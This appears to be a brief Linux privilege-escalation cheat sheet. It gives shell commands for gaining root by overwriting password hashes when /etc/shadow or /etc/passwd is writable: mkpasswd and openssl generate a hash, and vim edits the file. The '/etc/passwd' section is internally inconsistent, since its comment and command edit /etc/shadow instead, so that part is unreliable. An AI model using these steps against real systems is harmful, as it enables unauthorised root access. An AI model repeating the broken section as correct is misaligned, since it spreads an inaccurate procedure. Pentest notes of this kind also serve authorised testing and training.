# Linux Privilege Escalation

## Writable /etc/shadow

```bash
# Generate hash sha512crypt
mkpasswd -m sha-512 some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Writable /etc/passwd

```bash
# Generate password for /etc/passwd
openssl passwd some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

